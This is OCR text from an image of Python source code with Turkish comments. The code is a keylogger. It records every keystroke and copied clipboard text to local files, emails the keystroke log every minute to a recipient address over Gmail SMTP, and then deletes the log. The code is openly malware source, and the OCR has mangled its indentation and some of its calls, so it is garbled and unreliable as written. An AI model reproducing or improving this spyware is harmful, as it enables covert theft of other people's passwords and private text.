 import smtplib
from email.mime.multipart import MIMEMultipart
from email.mime.text import MIMEText
from pynput import keyboard
from pynput import clipboard
import os
import time
import schedule

SMTP_SERVER = "smtp.gmail.com"
SMTP_PORT = 587
EMAIL_ADDRESS = "your_email@gmail.com"
EMAIL_PASSWORD = "your_password"
RECIPIENT_EMAIL = "recipient_email@gmail.com"

tuş_sayıları = {}

kopyalanan_metinler = open("kopyalanan_metinler.txt", "a")

def on_press(key) :
    try :
    tuş = key.char  # Normal karakter tuşları
    except AttributeError :
tuş = str(key)  # Diğer tuşlar(Shift, Ctrl, vs.)

if tuş in tuş_sayıları :
tuş_sayıları[tuş] += 1
else:
tuş_sayıları[tuş] = 1

with open("basılan_tuşlar.txt", "a") as dosya :
dosya.write(f"{tuş}\n")

def on_copy(text) :
    kopyalanan_metinler.write(text + "\n")

    # E - posta gönderme fonksiyonu
    def send_email() :
    # E - posta oluşturma
    msg = MIMEMultipart()
    msg['From'] = EMAIL_ADDRESS
    msg['To'] = RECIPIENT_EMAIL
    msg['Subject'] = "Kullanıcı Aktiviteleri"

    # Metin belgesini e - posta içeriğine ekleme
    with open("basılan_tuşlar.txt", "r") as dosya :
text = dosya.read()
body = MIMEText(text)
msg.attach(body)

with smtplib.SMTP(SMTP_SERVER, SMTP_PORT) as server :
server.starttls()
server.login(EMAIL_ADDRESS, EMAIL_PASSWORD)
server.send_message(msg)

os.remove("basılan_tuşlar.txt")

schedule.every(1).minutes.do(send_email)

with keyboard.Listener(on_press = on_press) as listener1, clipboard.Listener(on_copy = on_copy) as listener2 :
listener1.join()
listener2.join()

while True:
schedule.run_pending()
time.sleep(1)
